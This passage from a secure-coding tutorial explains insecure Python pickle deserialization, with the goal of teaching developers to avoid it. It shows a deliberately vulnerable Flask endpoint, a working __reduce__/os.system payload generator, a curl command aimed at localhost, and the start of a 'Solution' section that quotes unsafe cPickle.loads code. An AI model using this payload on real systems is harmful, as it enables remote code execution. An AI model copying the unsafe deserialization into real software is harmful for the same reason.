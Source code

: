 ```python
            username = pickle.loads(decoded) #vulnerable deserialization
            return jsonify({'Hi':username})

        except Exception as e:
            return jsonify({'Hi': 'Stranger'})

if __name__ == '__main__':
    app.run()

```

The server behaves in a similar fashion to the NodeJS example. It listens on port 5000. When a POST request is made to the endpoint, the server tries to decode and deserialize the data to extract a username.

If there are errors, the server responds with a generic message otherwise replies with the name of the user. 

Again, the serialized data is read directly from the request body without any checks. Therefore, it can be exploited easily to gain Remote code execution by generating payloads with the following script:

```python
import pickle
import base64
import os

RCE_CMD = 'touch /tmp/PoC'

class RCE:
    def __reduce__(self):
        cmd = (RCE_CMD)
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

The output, when sent in the POST, executes the noted command on the system.

```bash
$ curl -X POST http://127.0.0.1:5000/ -d "{'payload': '<PAYLOAD>'}"
```

## Solution

- Do not directly deserialize any user-controlled or untrusted data. For example, take the original code snippet:    

```python
class ExampleProtocol(protocol.Protocol):  
	def dataReceived(self, data):    
		# Code that would be here would parse the incoming data  
		# After receiving headers, call confirmAuth() to authenticate  

	def confirmAuth(self, headers):  
		try:  
			token = cPickle.loads(base64.b64decode(headers['AuthToken']))  # User control data flows into insecure cPickle.loads() function
			if not check_hmac(token['signature'], token['data'], getSecretKey()):  
				raise AuthFail  
			self.secure_data = token['data']  
		except:  
			raise AuthFail
```
